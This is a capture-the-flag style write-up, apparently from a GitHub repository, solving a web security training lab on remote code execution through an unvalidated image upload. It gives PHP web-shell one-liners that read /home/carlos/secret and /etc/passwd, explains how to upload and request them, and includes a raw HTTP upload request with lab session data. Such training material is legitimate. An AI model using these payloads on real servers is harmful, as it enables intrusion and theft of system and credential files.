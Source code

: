 # Remote code execution via web shell upload

## This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo file_get_contents('/home/carlos/secret'); ?>

---

### step 1

login using uername and password
upload image
and open image using right click on avatar

https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/Screenshot.png

### step2

upload

<?php echo file_get_contents('/home/carlos/secret'); ?>

this code as test as test.php
now
https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/test.php
you will get this secret code
ced1FZfjQHONoZWguqkBA63296QgpE2x

submit and solved the lab

## we can test this on repeater as well

POST /my-account/avatar HTTP/1.1
Host: 0a09001b037378d1c340c5240047000e.web-security-academy.net
Cookie: session=pgXZMQWGcfzMLRxWNZnx42mXpdTyNEHC
Content-Length: 327475
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a09001b037378d1c340c5240047000e.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypT9LSMVRq0q0kkdq
User-Agent: Mozilla/5.0 (X11; Linux x86*64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/\_;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a09001b037378d1c340c5240047000e.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="avatar"; filename="Screenshot_2022-12-16_03_42_29.png"
Content-Type: image/png

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="csrf"

0V9jAe3n3kflmgp5ShE0UlVSukOuKy7U
------WebKitFormBoundarypT9LSMVRq0q0kkdq--

---

remvove image data then add

<?php echo file_get_contents('/etc/passwd'); ?>

![screenshot](images/lab1_etc_password_test_repeater.jpg)

![screenshot](images/lab1_exploit_php_test.jpg)

![screenshot](images/lab1_home_carlos_secret.jpg)

![screenshot](images/lab1_secrete_code.jpg)
